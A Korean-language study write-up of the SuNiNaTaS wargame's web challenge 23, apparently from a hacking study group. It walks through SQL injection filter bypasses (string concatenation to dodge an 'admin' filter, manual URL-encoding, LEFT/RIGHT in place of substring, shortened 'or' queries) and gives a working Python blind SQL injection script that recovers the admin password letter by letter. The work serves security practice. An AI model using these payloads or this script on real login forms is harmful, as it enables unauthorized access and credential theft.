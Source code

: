 ```yaml
---
layout: default
title: Day26
nav_order: 5

parent: Hacking Project - W4
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----

# > https://suninatas.com

## challenge 23

![image-20220513152903218](../img/image-20220513152903218.png)

바로 다음 단계에서는 admin 아이디를 구해야하는데 admin이 필터링되어 있었다. 하지만 쿼리문에서 문자를 이어붙히는 방법을 알고 있기에 한 번 시도해보았더니 바로 admin 계정 로그인이 가능했다.

![image-20220513153231770](../img/image-20220513153231770.png)

익스코드로 시도하려 했으나 실패했었는데 삽질 과정 중 얻게 된 정보이다

|                  admi'+'n' and len(pw)>3--                   |
| :----------------------------------------------------------: |
| http://suninatas.com/challenge/web23/web23.asp?id=admi%27%2B%27n%27+and+len%28pw%29%3E3--&pw=1234	< 성공<br/>http://suninatas.com/challenge/web23/web23.asp?id=admi%27+%27n%27%20and%20len(pw)%3E3--&pw=1234	< 실패 |


직접 아이디란에 쿼리를 넣으면 성공 케이스처럼 URL이 전송되었는데 python의 requests 모듈을 이용하여 전송하니 실패 케이스처럼 URL이 전송되었다. 원인을 보니 `+` 기호에 대한 인코딩 차이인 것 같아서 익스코드에는 `+` 기호 대신 `%2B`를 넣어 직접 인코딩 해주었다.이를 토대로 바로 비밀번호 길이는 12자리임을 찾아냈는데 문제는 다음 단계였다.

이 문제에서는 `substring` 함수를 제한하고 있기에 다른 대안을 찾야야 한다.



<br>



찾은 대안은 이전 문제에서 힌트를 얻었는데 필터링에 LEFT와 RIGHT 함수가 제외된 부분이다. 그래서 LEFT 함수를 이용하여 문자열을 찾기로 했는데 과정 중에서 또 다른 제한 사항을 마주했다.

![image-20220513164224870](../img/image-20220513164224870.png)

분명 익스 코드에서 쿼리 문에 이상이 없는데 "No hack" 문구가 발생하는 것이다. 추적해보니 31자리 이상의 입력이 들어갈 경우에 필터링에 걸린 것과 같은 결과물이 나왔다. 때문에 `admi\'%2B\'n\' and left(pw,1)=\''+chr(i)+'\'--' ` 이렇게 보내는 쿼리 길이를 어떻게 줄여야 할까 생각을 해보았다.

<br>

쿼리를 받는 입장에서 생각해보기 위해 내가 웹을 만들었던 기억을 되살려보면 로그인 시에 `SELECT * FROM table WHERE id = '' and pw =''` 이런식으로 WHERE 절 뒤에 컬럼과 함께 넣었었다. 그리고 and를 이용해 검사 결과에 "그리고" 라는 의미를 더했었는데 생각해보면 "또는"의 `or`도 사용할 수 있었다. 그리하여 admin 계정 비밀번호의 첫번째 자리를 알 수 있다면 `WHERE id = '' or left(pw,3) = '?XX'` 와 같이 보낼 수도 있겠다. 어디까지나 첫번째 문자를 알아야만 가능한 것이다.

그리하여 위 시행착오와 가설을 통해 아래 익스 코드를 작성했다.

```python
import requests

def request(uid):
	url = f'http://suninatas.com/challenge/web23/web23.asp?id={uid}&pw=1234'
	response = requests.get(url)
	return response

def find_len_pw():
	for num in range(3,30):
		uid = f'admi\'%2B\'n\' and len(pw)>{num}--'
		response = request(uid)
		if "False" in response.text:
			print("Finally I can get pw len: ",num)
			break
	return num

def solve(len_pw):

	# got first letter of pw
	#uid = f'admi\'%2B\'n\' and left(pw,1)=\''+chr(i)+'\'--' 
	#==> V
	res = "V"
	print(f"Wait! I find 1's letter : ",res)

	# get 9 letter on the left side
	for idx in range(2,len_pw+1):
		for i in range(33,127):
			uid = f'\'or left(pw,{idx})=\''+res+chr(i)+'\'--'
			response = request(uid)
			if "OK" in response.text:
				print(f"Wait! I find {idx}'s letter : ",chr(i))
				res += chr(i)
				break

	# get 2 letter on the right side
	res2 = ''
	for idx in range(1,3):
		for i in range(33,127):
			uid = f'\'or right(pw,{idx})=\''+chr(i)+res2+'\'--'
			response = request(uid)
			if "OK" in response.text:
				print(f"Wait! I find {idx}'s letter : ",chr(i))
				res2 = chr(i) + res2
				break

	print(res+res2)

if __name__ == "__main__":
	len_pw = find_len_pw()
	solve(len_pw)	
```

삽질을 토대로 함수를 만들어낸 과정이다.

1. admin 문자열 우회를 위해 `+` 기호를 이용하여 문자열을 완성
2. `+` 기호가 인코딩되지 않아 직접 인코딩하여 전송
3. `substr` 함수 사용이 불가능하여 `left` 함수 이용
4. 쿼리 길이 제한이 있어서 첫번째 자리 확보 후에 `or`을 이용하여 쿼리 전송
5. 그럼에도 길이 제한이 있어서 `right` 함수 이용
6. `left`와 `right`를 통해 얻은 문자열 합침

캬 시간이 증발했다.



익스 결과 캡처본이다.

![image-20220513180056359](../img/image-20220513180056359.png)



이렇게 5일동안 WEB 파트를 다 풀어보았는데 생각보다 얻은 것이 상당히 많은 것 같다. 앞으로 풀어나갈 문제들의 기초를 튼튼히 해두고 잊지 않기 위해서 얻은 개념과 정보들을 정리해두어야 겠다. 역시 개발을 하면서 웹과 친숙해진게 정말 강점으로 작용했다.

![image-20220513180620345](img/image-20220513180620345.png)
